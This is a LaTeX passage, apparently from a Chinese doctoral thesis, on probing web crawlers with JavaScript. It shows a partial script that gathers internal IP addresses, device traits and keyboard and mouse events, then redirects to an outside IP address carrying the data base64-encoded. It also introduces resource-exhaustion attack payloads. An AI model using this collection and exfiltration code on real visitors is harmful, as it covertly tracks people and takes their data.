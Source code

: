 \documentclass[doctor,privacy,twoside]{buaa_mac}
\begin{document}
通过在目标浏览器中执行相关javascript代码，可以获取目标浏览器中的动态特征。这些特征包括：webRTC特征，窗口特征，电池状态，html5的相关api接口，浏览器插件以及鼠标行为。部分函数之间有严格的顺序依赖关系，此外，还需要保证javascript在不同浏览器中的兼容性。

\lstset{language=JavaScript}
\begin{lstlisting}
var webrtc_res = 'internal ip: ';
var fp = '';
var window_info = "window size: " + window.outerWidth + 'x' +  window.outerHeight;
var close_time = '';
var special_func = 'special functions: ';
var battery_s = 'battery status: ';
var webaudio_s = 'webaudio status: '
var websocket_s = 'websocket status: ';
var webgl_s = 'webGL status: ';
var webrtc_s = 'webrtc status: ';
var plugins_s = 'plugins: ';
var all_events = {'onmouseover':0,'onmouseout':0, 'onmousedown':0, 'onmouseup':0, 'onmouseleave':0, 'onmouseenter':0, 'ondblclick':0, 'oncontextmenu':0, 'onclick':0, 'onkeydown':0, 'onkeypress':0, 'onkeyup':0 };
var event_res = 'mouse and keyboard events: ';
var newline = String.fromCharCode(10);

...
此处省略具体函数实现代码
...

hook_mouse_keyboard_event();
webrtc();
battery_status();
websocket_status();
webaudio_status();
webgl_status();
webrtc_status();
plugin_list();
special_function();
alert_detection();

function final(){
    return webrtc_res + newline + fp  + newline + window_info + newline + close_time + newline + battery_s +newline + webaudio_s + newline + websocket_s + newline + webgl_s + newline + webrtc_s + newline + plugins_s + newline + special_func + newline + event_res + JSON.stringify(all_events) + newline;
}
setTimeout(function() {var f = final();console.log(f);window.location.href='http://4.1.5.4/1.php?a=' + btoa(f);}, 1000);
\end{lstlisting}


\section{示例攻击载荷}

\subsection{资源耗尽型攻击代码}
资源耗尽型攻击代码通过大量的死循环以及递归，来实现对爬虫宿主机计算和存储资源的大量消耗，从而实现干扰爬虫正常运行的目标。
\end{document}
